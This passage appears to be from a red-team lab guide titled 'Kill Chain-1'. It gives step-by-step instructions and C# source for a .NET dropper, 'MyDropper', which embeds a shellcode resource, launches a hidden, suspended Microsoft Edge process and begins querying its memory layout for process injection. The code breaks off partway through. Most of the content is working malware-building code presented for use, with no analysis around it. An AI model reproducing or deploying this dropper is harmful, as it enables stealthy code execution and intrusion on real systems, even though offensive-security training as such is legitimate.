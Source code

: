 # Kill Chain-1

## Payload <a href="#payload" id="payload"></a>

1. On the Attacker Desktop, open a Terminal window and create a new directory to hold the dependencies for the infection chain.
   1. mkdir C:\Payloads\deals
2. Open Visual Studio and create a new Class Library (.NET Framework) project:
   1. Project name: MyDropper.
   2. Place in the same directory: Checked
3. Add _http\_x64.xprocess.bin_ (located in _C:\Payloads_) as an embedded resource.
4. Copy the following code into Class1.cs:

```csharp
using System;
using System.IO;
using System.Reflection;
using System.Runtime.InteropServices;
 
namespace MyDropper
{
    public class Dropper
    {
        public Dropper()
        {
            var si = new STARTUPINFOA
            {
                cb = (uint)Marshal.SizeOf<STARTUPINFOA>(),
                dwFlags = STARTUPINFO_FLAGS.STARTF_USESHOWWINDOW
            };
 
            // create hidden + suspended msedge process
            var success = CreateProcessA(
                "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe",
                "\"C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge.exe\" --no-startup-window",
                IntPtr.Zero,
                IntPtr.Zero,
                false,
                PROCESS_CREATION_FLAGS.CREATE_NO_WINDOW | PROCESS_CREATION_FLAGS.CREATE_SUSPENDED,
                IntPtr.Zero,
                "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\",
                ref si,
                out var pi);
 
            if (!success)
                return;
 
            // get basic process information
            var szPbi = Marshal.SizeOf<PROCESS_BASIC_INFORMATION>();
            var lpPbi = Marshal.AllocHGlobal(szPbi);
 
            NtQueryInformationProcess(
                pi.hProcess,
                PROCESSINFOCLASS.ProcessBasicInformation,
                lpPbi,
                (uint)szPbi,
                out _);
 
            // marshal data to structure
            var pbi = Marshal.PtrToStructure<PROCESS_BASIC_INFORMATION>(lpPbi);
            Marshal.FreeHGlobal(lpPbi);
```